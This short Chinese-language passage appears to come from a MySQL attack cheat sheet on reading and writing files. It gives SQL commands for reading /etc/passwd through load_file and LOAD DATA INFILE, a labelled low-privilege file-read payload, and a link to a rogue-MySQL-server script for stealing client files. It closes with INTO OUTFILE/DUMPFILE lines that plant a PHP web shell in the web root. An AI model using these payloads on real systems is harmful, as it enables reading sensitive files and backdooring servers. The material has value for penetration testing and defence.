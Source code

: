 ```
case when condition then 1 else 0 end
```



### 读/写文件

#### 读

Mysql读取文件通常使用load_file函数，语法如下：

```
select load_file(file_path);
```

第二种读文件的方法：

```
load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n'; #读取服务端文件
```

第三种：

```
load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n'; #读取客户端文件
```

限制：

- 前两种需要`secure-file-priv`无值或为有利目录。
- 都需要知道要读取的文件所在的绝对路径。
- 要读取的文件大小必须小于`max_allowed_packet`所设置的值



#### 低权限读取文件

5.5.53`secure-file-priv=NULL`读文件payload，mysql8测试失败，其他版本自测。

```
drop table mysql.m1;
CREATE TABLE mysql.m1 (code TEXT );
LOAD DATA LOCAL INFILE 'D://1.txt' INTO TABLE mysql.m1 fields terminated by '';
select * from mysql.m1;
```



#### 服务端读取客户端文件



这个漏洞是mysql的一个特性产生的

简单描述该漏洞：Mysql客户端在执行`load data local`语句的时，先想mysql服务端发送请求，服务端接收到请求，并返回需要读取的文件地址，客户端接收该地址并进行读取，接着将读取到的内容发送给服务端。

利用脚本:`https://github.com/Gifts/Rogue-MySql-Server/blob/master/rogue_mysql_server.py`

#### 写

```
select 1,"<?php @assert($_POST['t']);?>" into outfile '/var/www/html/1.php';
select 2,"<?php @assert($_POST['t']);?>" into dumpfile '/var/www/html/1.php';
```
